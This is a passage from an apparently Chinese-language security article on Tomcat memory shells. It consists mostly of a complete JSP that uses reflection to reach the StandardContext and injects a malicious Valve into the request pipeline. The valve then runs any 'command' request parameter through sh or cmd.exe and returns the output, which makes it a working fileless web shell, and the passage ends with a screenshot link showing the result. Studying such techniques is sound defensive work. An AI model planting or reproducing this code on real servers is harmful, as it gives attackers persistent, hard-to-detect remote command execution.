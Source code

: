 下面的则是调用 `standardContext.getPipeline().addValve`实现的：

```bash
<%@ page import="java.lang.reflect.Field" %>
<%@ page import="org.apache.catalina.connector.Request" %>
<%@ page import="org.apache.catalina.valves.ValveBase" %>
<%@ page import="org.apache.catalina.connector.Response" %>
<%@ page import="java.io.IOException" %>
<%@ page import="org.apache.catalina.core.*" %>
<%@ page import="java.io.InputStream" %>
<%@ page import="java.util.Scanner" %>
<%@ page import="java.io.PrintWriter" %>
<%@ page contentType="text/html;charset=UTF-8" language="java" %>

<%
  class testEvilValve extends ValveBase {
    @Override
    public void invoke(Request request, Response response) throws ServletException,IOException {
      if (request.getParameter("command") != null) {
        boolean isLinux = true;
        String osTyp = System.getProperty("os.name");
        if (osTyp != null && osTyp.toLowerCase().contains("win")) {
          isLinux = false;
        }
        String[] cmds = isLinux ? new String[]{"sh", "-c", request.getParameter("command")} : new String[]{"cmd.exe", "/c", request.getParameter("command")};
        InputStream in = Runtime.getRuntime().exec(cmds).getInputStream();
        Scanner s = new Scanner(in, "GBK").useDelimiter("\\A");
        String output = s.hasNext() ? s.next() : "";
        response.setCharacterEncoding("GBK");
        PrintWriter out = response.getWriter();
        out.println(output);
        out.flush();
        out.close();
        this.getNext().invoke(request, response);
      }
    }
  };
%>

<%
  Field requestField = request.getClass().getDeclaredField("request");
  requestField.setAccessible(true);
  final Request req = (Request) requestField.get(request);
  StandardContext standardContext = (StandardContext) req.getContext();
  standardContext.getPipeline().addValve(new testEvilValve());
  out.println("inject success");
%>
```

效果如下：

[![](assets/1708482732-cdd185137b52d78bb0e9b8443a3716a7.jpeg)](https://xzfile.aliyuncs.com/media/upload/picture/20240211003503-57885152-c832-1.jpeg)